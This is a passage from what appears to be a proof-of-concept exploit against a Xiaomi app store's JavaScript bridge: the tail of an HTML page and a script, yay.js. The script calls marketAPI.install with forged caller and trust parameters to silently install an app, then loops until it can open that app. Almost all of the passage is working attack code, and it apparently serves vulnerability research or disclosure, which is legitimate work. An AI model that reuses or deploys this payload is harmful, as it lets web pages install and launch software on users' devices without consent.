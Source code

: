 ```
                a.href = yayhyperlinkyay;
                a.id = "yayidyay";
                a.innerHTML = "YAYPOCYAY";
                document.getElementsByTagName('body')[0].appendChild(document.createElement("h1"))
                document.getElementsByTagName('h1')[0].appendChild(a);
        </script>
</body>
</html>
```

The contents of `yay.js` is below:

```
const sleep = async (milliseconds) => {
    await new Promise(resolve => {
        return setTimeout(resolve, milliseconds)
    });
};

const thePayloadYay = async () => {
    var yayflagyay = 1;
    while (yayflagyay == 1){
		var yayinstalledappsyay = marketAPI.getInstalledApps({});
		var yayappslengthyay = yayinstalledappsyay.length;
		var yaycounteryay = 0;
		while (yaycounteryay != yayappslengthyay) {
			if (yayinstalledappsyay[yaycounteryay].packageName === "com.<redacted>.sunfish") {
				marketAPI.openApp({"pName":"com.<redacted>.sunfish"});
				yayflagyay = 0;
			}
			yaycounteryay = yaycounteryay + 1;
		}
	}
	marketAPI.showToast({"content":"waiting for the app to be installed"})
    await sleep(5000);
    
}

marketAPI.install({"extra_params":{"downloadImmediately":"true","fromUntrustedHost":"false","sourcePackage":"com.miui.home","startDownload":"true","callerPackage":"com.xiaomi.mipicks","ext_apm_isColdStart":"false","callerSignature":"88daa889de21a80bca64464243c9ede6","launchWhenInstalled":"true","ext_apm_timeSinceColdStart":"1362443","senderPackageName":"com.xiaomi.mipicks","entrance":"detail","pageRef":"com.xiaomi.mipicks","appClientId":"com.xiaomi.mipicks","refs":"-detail/com.<redacted>.sunfish","sid":"","rId":0,"ad":0,"appStatusType":0,"pName":"com.<redacted>.sunfish","pos":"detailInstallBtn","posChain":"detailInstallBtn","newUser":true,"activedTimeInterval":583925,"adExchangeFlag":0,"_ir_":"8rj6UL-fpnYa7BCFmBSqp5jbHJSm_GgzL6bgn7GqAwc","ext_apm_iconType":"static","ext_apm_isHotTag":false},"ref":"_detailInstallBtn","title":"Sunfish","pName":"com.<redacted>.sunfish","appId":3004617,"appInfo":{"grantCode":0,"openLinkGrantCode":1,"voiceAssistTag":false,"commentable":false,"id":3004617,"appId":3004617,"packageName":"com.<redacted>.sunfish","displayName":"Sunfish","publisherName":"<redacted>","versionName":"1.2.2","versionCode":9,"updateTime":1694181164626,"apkSize":3710211,"compressApkSize":0,"icon":"AppStore/06c542c55a34b47d4a12a45bfe4187f5d8b5d8f10","level1CategoryId":30,"intlCategoryId":30,"ads":0,"adType":1,"position":0,"briefShow":"Help ensure the security of your Android applcation.","briefUseIntro":false,"releaseKeyHash":"0e140764979f5c5c0c44fd526aae29e3",},"sid":"","callBack":"marketAsyncCb.installCb"})
thePayloadYay();
```
